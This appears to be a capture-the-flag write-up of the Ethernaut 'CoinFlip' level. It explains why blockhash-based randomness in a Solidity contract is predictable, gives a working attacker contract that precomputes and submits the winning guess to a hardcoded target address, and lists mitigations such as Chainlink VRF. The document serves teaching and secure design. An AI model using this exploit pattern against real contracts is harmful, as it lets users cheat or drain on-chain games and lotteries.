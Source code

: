 ```yaml
---
title: "4. CoinFlip"
tags:
- writeups
---
```


- used [mythrill](https://github.com/ConsenSys/mythril) for static analysis on EVM bytecode: `myth a CoinFlip.sol`
	- make sure you store your contracts locally *(`coinFlip.sol` & dependencies: `SafeMath.sol`)* 
	- control flow decision is made based on the block hash of a previous block
- we might be able to guess every time by having control over how the `blockValue` is determined, so let's look @ the contract

## Disecting the contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract CoinFlip {

    using SafeMath for uint256;
    uint256 public consecutiveWins;
    uint256 lastHash;
    // it's actually 2^255
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // Setup the counter to 0
    constructor() public {
      consecutiveWins = 0;
    }


    // give a bool, get bool back
    function flip(bool _guess) public returns (bool) {
      // block.number: the curr block nr
      // blockhash(): hash of the given block — only for 256 most recent blocks
      // look @ the nr of the prev block, get hash & cast to uint256
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));


      // check for multiple txs  on the same block  
      // and let through only the first one
      if (lastHash == blockValue) {
        // undo all state changes, but handled 
        // differently than an `invalid opcode`
        //   - allows youo to return value
        //   - or refund remaining gas to caller
        revert();
      }
      // set the lastHash based on blockValue
      // ! it's entirely dependent on the block tx is included on
      lastHash = blockValue;
      
      // btw: 3 / 4 = 0 in solidity
      // so we should get only 1 or 0
      uint256 coinFlip = blockValue.div(FACTOR);
      bool side = coinFlip == 1 ? true : false;

      // compare pseudo random flip result with
      // user's guess & adjust wins accordingly
      if (side == _guess) {
        consecutiveWins++;
        return true;
      } else {
        consecutiveWins = 0;
        return false;
      }
    }
}
```

## Exploitation
**Every single transaction in the same block can determine the same `blockValue` => evaluate the *coinflip* result**. 

How we could do that ? As always the best way to attack a smart contract is with another smart contract :))
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";
using SafeMath for uint256;

contract CoinFlip {
	...
}

contract angryApe {
  CoinFlip public flipper; // instance of target contract
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  bool public guess; // make guess accesible

  // init connection to the target contract
  constructor() {
    flipper = CoinFlip(0x37b29A2b9d16b4d005EfcEce415e555C5FD2cf71);
  }

  // sometimes you can cheat
  function cheat() public returns(bool) {
    // calculate blockValue, flip & get your guss
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 flip       = blockValue.div(FACTOR);
    guess   = flip == 1 ? true : false;

    // send to target contract
    flipper.flip(guess);
    return true;
  }
}
```

The only thing left to be done is to spam the `cheat()` function
> *is there any way to automate this?*


## Takeaways
>  "This property of Proof of Work based consensus is one of the greatest obstacles to achieving truly random outcomes on the blockchain. Think on that before building a decentralized lotto 🤑"
- generating random numbers in solidity can be tricky, since everything in smart contracts i publicly visible *(including the local `private` vars)*
- whenever developing a smart contract keep in mind that miners also have control over things like: blockhashes, timestamps & whether to include certain txs
### Mitigation
- to get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.
- other options include using Bitcoin block headers *(verified through [BTC Relay](http://btcrelay.org/))*, [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

## See Also
- [[write-ups/Ethernaut Wargame]]